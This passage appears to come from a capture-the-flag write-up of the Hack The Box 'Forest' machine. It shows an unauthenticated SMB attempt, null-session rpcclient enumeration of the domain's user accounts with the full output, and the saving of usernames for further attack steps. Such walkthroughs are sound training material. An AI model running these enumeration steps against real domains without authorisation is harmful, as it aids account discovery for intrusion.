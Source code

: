 - Queried SMB, got nothing
```
❯ netexec smb htb.local -u sundeity -p ''                                        
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] htb.local\sundeity: STATUS_LOGON_FAILURE 

```
- Which was weird for an easy box, this triggered lot of questions inside me. On searching the web I found about a new technique. Apparently I can enumerate `rpc` using `rpcclient`. If you are more interested about this i'll leave the  articles link  
{{< details summary="Links to the Articles" >}}
[Article-1](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)
<br>
[Article-2](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)
{{< /details >}}
- Using null login to connect with rpc
```bash
rpcclient -U "" -N 10.10.10.161
```
- Using the below command I can enumerate users on the domain
```bash
enumdomusers
```
- **Output:**
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
- As I got the users now I copied all the users into a file. So that I can enumerate further with it.
```
❯ cat users.txt
Administrator
krbtgt
```